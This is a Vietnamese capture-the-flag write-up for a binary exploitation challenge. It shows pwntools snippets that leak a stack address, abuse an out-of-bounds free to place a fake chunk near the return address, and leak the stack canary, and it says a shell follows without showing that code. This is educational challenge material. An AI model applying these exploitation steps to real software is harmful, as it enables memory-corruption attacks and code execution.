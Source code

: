 ![image](https://github.com/gookoosss/CTF/assets/128712571/bdfb6c6d-0664-4699-90ee-dbb709402908)


- sau đó ta leak stack bằng option 4

```python 
add(0x60, b'a' * 8)
add(0x60, b'a' * 8)
add(0x60, b'a' * 8)
add(0x60, b'a' * 8)
add(0x60, b'a' * 8)
show()
p.recvuntil('Gift: \n')
stack_leak = int(p.recvline()[:-1], 10)
stack = stack_leak + 0xe0
print(hex(stack))
```
![image](https://github.com/gookoosss/CTF/assets/128712571/9ff47909-08f6-40ea-874b-4ef6029c7549)


- đến bước này mới khó nên ta phân tích 1 xíu
- thứ ta cần lúc này là free stack, mà hàm free() lại free thằng s[idx], lúc nào ta lợi dụng lỗi OOB để free stack gần rip
- để tránh lỗi invalid pointer khi free thì ta cần free stack có đuôi 0x0 

![image](https://github.com/gookoosss/CTF/assets/128712571/985b7053-aad9-49fe-b3a3-32ad7758a5eb)


- ta sẽ chọn địa chi 0x7fff799e0550 vì nó gần rip nhất, có đuôi 0x0 và ta có thể setup pre size cho nó

![image](https://github.com/gookoosss/CTF/assets/128712571/495c3c07-c474-4981-9b4f-62ee2d524f09)


```python 
payload = p64(0) + p64(0) + p64(0) + p64(stack) + p64(0)+ p64(0) + p64(0) + p64(0)+ p64(0) + p64(0)  + p64(0x61)
edit(payload)
delete(20)
```

- deee ta đã free thành công

![image](https://github.com/gookoosss/CTF/assets/128712571/1a79358f-24b5-4323-b619-48d05c38faa2)


- bây giờ ta leak canary thôi 

```python 
add(0x50, b'a'*25)
p.recvuntil(b'a'*24)
canary = u64(p.recv(8)) - 0x61
print(hex(canary))
```

- có được canary rồi thì ta free lại stack 1 lần nữa và get shell thôi
